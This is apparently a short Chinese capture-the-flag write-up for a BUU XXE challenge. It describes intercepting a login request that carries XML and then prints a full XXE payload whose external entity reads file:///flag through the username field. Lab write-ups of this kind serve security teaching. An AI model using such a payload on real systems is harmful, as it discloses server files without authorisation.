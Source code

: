 # BUU XXE COURSE 1

`考点：XXE`

- 进入发现是一个登录，随便输入，点击go并进行抓包，发现xml文档

> <img src="../../IMG2/Screenshot 2024-05-12 191929.png">

- 构建payload，得到flag

```php
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root[
<!ENTITY admin SYSTEM "file:///flag">
]>
<root>
    <username>&admin;</username>
    <password>1</password>
</root>
```

> <img src="../../IMG2/Screenshot 2024-05-12 192339.png">

